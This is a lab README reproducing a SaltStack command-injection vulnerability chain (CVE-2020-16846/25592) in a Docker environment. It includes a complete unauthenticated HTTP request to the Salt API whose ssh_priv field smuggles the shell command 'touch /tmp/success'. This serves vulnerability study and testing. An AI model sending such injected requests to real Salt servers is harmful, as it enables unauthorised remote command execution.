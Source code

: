 # SaltStack Shell Injection (CVE-2020-16846)

[中文版本(Chinese version)](README.zh-cn.md)

Salt is a new approach to infrastructure management built on a dynamic communication bus. Salt can be used for data-driven orchestration, remote execution for any infrastructure, configuration management for any app stack, and much more.

In November 2020, SaltStack officially disclosed two vulnerabilities, CVE-2020-16846 and CVE-2020-25592. CVE-2020-25592 allows arbitrary user to use the SSH module, and CVE-2020-16846 allows users to execute arbitrary commands. Chain these two vulnerabilities will allow unauthorized attackers to execute arbitrary commands through the Salt API.

References:

- https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag
- https://docs.saltstack.com/en/latest/ref/netapi/all/salt.netapi.rest_cherrypy.html

## Vulnerable Environment

Execute the following command to start a SaltStack-Master service:

```
docker compose up -d
```

After the SaltStack-Master is started, the following ports will be listened:

- 4505/4506: SaltStack-Master server, which is a bridge between master and minions
- 8000: Salt's API server, **SSL requiring**
- 2222: SSH server inside the container

## Exploit

Send the following request to `https://your-ip:8000/run`:

```
POST /run HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|touch%20/tmp/success%3b
```

Inject the command `touch /tmp/success` through the `ssh_priv` parameter:

![](1.png)

